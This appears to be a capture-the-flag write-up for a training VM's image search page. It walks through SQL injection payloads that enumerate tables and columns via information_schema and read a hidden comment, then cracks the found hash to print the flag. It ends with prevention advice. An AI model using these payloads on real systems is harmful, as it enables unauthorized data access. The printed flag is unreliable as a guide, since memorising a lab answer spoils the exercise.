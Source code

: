 # SQL Injection - Image Search

SQL injection is a type of injection attack. Injection attacks occur when maliciously crafted inputs 
are submitted by an attacker, causing an application to perform an unintended action.


## Exploit

Go to page:

{VM_IP}/index.php?page=searchimg

Insert the following commands into the image search bar:

### Test if vulnerable to SQL Injection

```1 OR 1=1```

We get all the results because every row is considered true.

### Get the table names in the database

```1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.TABLES```

Here we find:

* Title: list_images
* Url : Member_images

### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here find the following table structure:

* Table name: list_images,
column : id
* Table name: list_images,
column : url
* Table name: list_images,
column : title
* Table name: list_images,
column : comment

### Look at the comment below each member's image

```1 OR 1=1 UNION SELECT title, comment FROM Member_images.list_images```

Here we find:

* Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
* Url : Hack me ?

### Hash

[md5_decrypt](https://md5decrypt.net)(1928e8083cf461a51303633093573c46) = albatroz

[sha256](https://md5decrypt.net/Sha256)(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

flag = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


## Use

A successful SQL injection attack can:
- read sensitive data from the database, 
- modify database data (insert/update/delete), 
- execute administration operations on the database (such as shutdown the DBMS), 
- recover the content of a given file existing on the DBMS file system or write files into the file system, 
- in some cases, issue commands to the operating system.


## Prevention

- You should always use parameterized statements where available, 
they are your number one protection against SQL injection.
- [Here](https://www.hacksplaining.com/prevention/sql-injection#code-samples) are some code samples in various languages.
- Principle of Least Privilege: applications should ensure that each process or software component can access and affect only the resources it needs. 
Apply “levels of clearance” as appropriate.
